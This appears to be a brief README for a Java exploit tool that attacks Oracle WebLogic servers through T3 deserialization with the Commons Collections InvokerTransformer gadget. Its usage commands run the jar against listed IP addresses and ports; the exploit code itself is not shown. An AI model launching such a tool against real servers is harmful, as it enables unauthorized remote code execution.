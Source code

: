 # weblogic_java_des
weblogic T3 collections java InvokerTransformer Transformer  InvokerTransformer weblogic.jndi.WLInitialContextFactory

# jdk
jdk 1.6+
# how use?
<code>
java  -jar ./bin/jfxl.jar 192.168.10.90:80

java  -jar ./bin/jfxl.jar 192.168.10.90:80;192.168.10.190:7001;192.168.10.33:7001
</code>
